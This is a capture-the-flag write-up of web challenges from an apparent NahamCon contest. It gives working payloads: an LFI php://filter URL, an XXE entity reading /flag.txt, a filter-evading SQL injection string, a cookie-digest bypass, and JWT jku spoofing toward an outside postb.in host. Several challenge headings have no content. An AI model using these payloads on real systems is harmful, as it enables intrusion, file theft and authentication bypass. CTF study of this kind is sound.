


# Web 
## Agent 95 (50)

Set user agent as Windows 95:

https://developers.whatismybrowser.com/useragents/parse/2520-internet-explorer-windows-trident

```python
import requests

headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    # windows 95 user agent
    'User-Agent': 'Mozilla/4.0 (compatible; MSIE 5.5; Windows 95; BCD2000)',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'en-US,en;q=0.9',
}

response = requests.get('http://jh2i.com:50000/', headers=headers, verify=False)
```

## Localghost (75)

Check local storage



## Phphonebook (100)

LFI vulnerability:
```
http://jh2i.com:50002/index.php?file=php://filter/convert.base64-encode/resource=index.php
```

~index.php~ contains this juicy bit:
```
<?php
      extract($_POST);

    	if (isset($emergency)){
    		echo(file_get_contents("/flag.txt"));
    	}
    ?>
```

So just add emergency to POST request

## Official Business (125)

```python
def load_cookie():

    cookie = {}
    auth = request.cookies.get("auth")
    if auth:

        try:
            cookie = json.loads(binascii.unhexlify(auth).decode("utf8"))
            digest = cookie.pop("digest")

            if (
                digest
                != hashlib.sha512(
                    app.secret_key + bytes(json.dumps(cookie, sort_keys=True), "ascii")
                ).hexdigest()
            ):
                return False, {}
        except:
            pass

    return True, cookie
```

Thrown exceptions pass the `load_cookie` check, so just send request with no `digest` field in the cookie

## Seriously (125)

https://github.com/gr455/ctf-writeups/blob/master/nahamcon20/seriously.md
- node deserialization vulnerability
- node reversse shell
- (?) ngrok tcp server

## Extraterrestrial (125)

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///flag.txt">]>
<message>
<id></id>
<message>&xxe;</message>
<title>xml</title>
</message>
```

## Rejected Sequel (150)

`"/**/union/**/select/**/flag/**/FFROMROM/**/flag/**/WWHEREHERE/**/TRUE/**/or/**/""="
`
## B'omarr Style (200)
## Flag Jokes (200)

Need to set user as admin:


We get a JWT token in the cookie, decode it with [JWT Debugger](https://jwt.io):

Header:
```
{
  "alg": "RS256",
  "jku": "http://localhost:5000/static/jwks.json",
  "kid": "sqcE1a9gj9p08zNMR1MWbLLvuaPyUeJEsClBhy7Q4Jc"
}
```

Payload
```
{
  "username": "tom"
}
```

The `jku` is an uri that references the public key used for generating the signature. We can try JWKS spoofing, where we change the ~jku~ field to our own server and see if we get a hit.

`static/jwks.json` returns the following:
```
{
    "keys": [
        {
            "e": "AQAB",
            "kid": "sqcE1a9gj9p08zNMR1MWbLLvuaPyUeJEsClBhy7Q4Jc",
            "kty": "RSA",
            "n": "1bVdpTILcGSahuOL6IJCbUpDZTGFHc8lzQORNLQBXDiRd1cC1k5cG41iR1TYh74cp8HYmoLXy4U2bp7GUFm0ip_qzCxcabUwWCxF07TGsmiFmCUbcQ6vbJvnSZSZGe-RFPgHxrVzHgQzepNIY2TmjgXyqt8HNuKBJQ6NoTviyxZUqy65KtSBfLYh5XzFn3FPemOla8kGBu7moSbUpgO1t3m3LgxBV5y51E1xSSoC7nAYPFrQ9wOTHEh7kGxGUQqKtGswyi2ncH22VcfQkxMA0HerFMPOr2n9eEZEbeJFco9Gp3drAYDCyj0QbkJKGdbl_50cimZ7eXgeyc3lEEXL7Q"
        }
    ]
}
```
Change the header to:

```
{
  "alg": "RS256",
  "jku": "https://postb.in/1592407627895-7120936170686",
  "kid": "sqcE1a9gj9p08zNMR1MWbLLvuaPyUeJEsClBhy7Q4Jc"
}
```

And you can see a hit.

Create new JWT keys with: https://mkjwk.org

And convert JWK to PEM: https://8gwifi.org/jwkconvertfunctions.jsp

Host the public key somewhere and edit the JWT token


## Mongolian BBQ (225)
## Criss Cross (400)
## Trash The Cache (1000)
